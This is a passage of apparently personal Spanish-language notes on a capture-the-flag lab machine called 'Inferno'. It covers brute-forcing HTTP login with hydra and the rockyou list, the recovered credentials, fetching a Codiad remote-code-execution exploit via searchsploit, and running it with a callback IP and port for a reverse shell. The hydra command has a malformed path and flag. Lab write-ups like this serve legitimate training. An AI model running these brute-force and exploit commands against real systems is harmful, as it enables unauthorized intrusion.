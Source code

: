 ![[Captura de pantalla -2023-07-10 17-11-29.png]]

==El resultado del ataque fue positivo arrojando que se encuentra un directorio web llamado Inferno.

http://192.168.153.136/inferno

![[Captura de pantalla -2023-07-10 17-12-36.png]]

==Nos pide un user y password

==Para esto utilizamos un ataque de fuerza bruta con hydra y un diccionario de contraseñas de Seclist

```
sudo hydra -l admin -p /usr/share/wordlis/rockyou.txt 192.168.153.136 http-get /inferno -t 60
```

![[Captura de pantalla -2023-07-12 12-00-16.png]]

Admin::dante1

![[Captura de pantalla -2023-07-12 12-00-43.png]]

Admin::dante1

![[Captura de pantalla -2023-07-12 12-00-58.png]]

==Se despliega un servicio de codiad sobre el puerto 80

![[Captura de pantalla -2023-07-12 12-02-17.png]]

---
# Escalamiento a usuario.

==Buscamos alguna vulnerabilidad  de codiat con searchsploit 

``` 
searchsploit codiad
```
![[Captura de pantalla -2023-07-12 12-24-22.png]]

==Nos interesa la remote code execution ya que tenemos credenciales auténticas de acceso  descargamos y modificamos nombré.
```
searchsploit -m múltiple/webapps/49704.py
```

![[Captura de pantalla -2023-07-12 12-25-10.png]]

==El exploit nos pide una serie de parámetros y la ejecución de 2 servicios netcat en escucha.

![[Captura de pantalla -2023-07-12 12-25-30.png]]

```
python3 codiad.py http://admin:dante1@192.168.153.136/inferno/ admin dante1 192.168.153.129 443 Linux
```
